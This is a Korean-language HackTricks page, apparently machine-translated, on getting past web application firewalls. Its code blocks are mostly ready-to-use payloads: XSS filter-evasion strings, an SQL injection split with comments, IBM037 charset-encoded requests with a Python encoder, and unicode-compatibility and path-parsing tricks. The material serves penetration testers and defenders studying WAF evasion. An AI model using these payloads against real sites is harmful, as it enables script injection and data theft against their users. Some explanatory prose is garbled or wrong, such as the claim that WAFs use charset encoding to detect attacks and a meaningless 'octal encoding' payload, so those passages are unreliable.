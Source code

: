 # WAF 우회

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 정규식 우회

다양한 기법을 사용하여 방화벽의 정규식 필터를 우회할 수 있습니다. 대소문자 교대, 줄 바꿈 추가, 페이로드 인코딩 등의 예가 있습니다. 다양한 우회 기법에 대한 자료는 [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads)와 [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html)에서 찾을 수 있습니다. 아래 예시는 [이 기사](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2)에서 가져왔습니다.
```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```
## 문자 집합 인코딩

WAF는 웹 응용 프로그램 방화벽을 의미하며, 웹 애플리케이션의 보안을 강화하기 위해 사용됩니다. WAF는 일반적으로 웹 요청을 분석하고, 악성 행위를 탐지하고 차단하는 데 사용됩니다. 그러나 WAF는 종종 문자 집합 인코딩을 사용하여 악성 페이로드를 탐지하고 차단할 수 있습니다.

문자 집합 인코딩은 문자를 컴퓨터에서 사용할 수 있는 형식으로 변환하는 프로세스입니다. 일부 WAF는 특정 문자 집합을 차단하거나 허용하는 데 사용될 수 있습니다. 이를 통해 WAF는 악성 페이로드를 탐지하고 차단할 수 있습니다.

WAF 우회를 위해 문자 집합 인코딩을 사용할 수 있습니다. 이를 통해 악성 페이로드를 변형하여 WAF의 탐지를 피할 수 있습니다. 일반적으로 URL 인코딩, 유니코드 인코딩, HTML 엔티티 인코딩 등이 사용됩니다.

문자 집합 인코딩은 WAF 우회 기술 중 하나이며, 특정 WAF 구현에 따라 효과적일 수 있습니다. 그러나 모든 WAF에서 동작하지는 않으며, WAF 우회를 위해 다른 기술과 조합하여 사용하는 것이 좋습니다.
```bash
# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037")))

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```
## 난독화

Obfuscation(난독화)은 웹 응용 프로그램에서 사용되는 일반적인 WAF(Web Application Firewall) 우회 기술 중 하나입니다. 이 기술은 공격자가 공격 코드를 감지 및 차단하는 WAF를 우회하기 위해 코드를 변형시키는 것을 목표로 합니다.

난독화는 다양한 방법으로 수행될 수 있습니다. 일반적인 기술로는 변수 및 함수 이름의 변경, 코드의 재정렬, 불필요한 공백 및 주석 제거 등이 있습니다. 이러한 변형은 코드를 읽기 어렵게 만들어 WAF가 공격 코드를 감지하기 어렵게 합니다.

난독화는 주로 JavaScript 코드에서 사용되며, 주로 웹 응용 프로그램에서 사용되는 클라이언트 측 스크립트에 적용됩니다. 이를 통해 공격자는 WAF를 우회하고 악성 코드를 실행할 수 있습니다.

난독화는 WAF 우회를 위한 효과적인 기술 중 하나이지만, 완벽한 보안을 제공하지는 않습니다. 고급 WAF는 난독화된 코드를 분석하고 감지할 수 있을 수도 있습니다. 따라서 공격자는 다른 우회 기술과 함께 난독화를 사용하는 것이 좋습니다.
```bash
# IIS, ASP Clasic
<%s%cr%u0131pt> == <script>

# Path blacklist bypass - Tomcat
/path1/path2/ == ;/path1;foo/path2;bar/;
```
## 유니코드 호환성

유니코드 정규화의 구현에 따라 (자세한 내용은 [여기](https://jlajara.gitlab.io/Bypass\_WAF\_Unicode)에서 확인 가능), 유니코드 호환성을 공유하는 문자는 WAF를 우회하고 의도한 페이로드로 실행될 수 있습니다. 호환 가능한 문자는 [여기](https://www.compart.com/en/unicode)에서 찾을 수 있습니다.

### 예제
```bash
# under the NFKD normalization algorithm, the characters on the left translate
# to the XSS payload on the right
＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥  --> ＜img src=p onerror='prompt(1)'>
```
## 크기 제한 초과

클라우드 기반 WAF에서는 페이로드가 X 크기보다 큰 경우, 요청이 WAF에 의해 확인되지 않을 수 있습니다. 이를 이용하여 간단히 우회할 수 있습니다.

### IP 회전

* [https://github.com/rootcathacking/catspin](https://github.com/rootcathacking/catspin)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)을 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 여러분의 해킹 기교를 공유하세요.

</details>
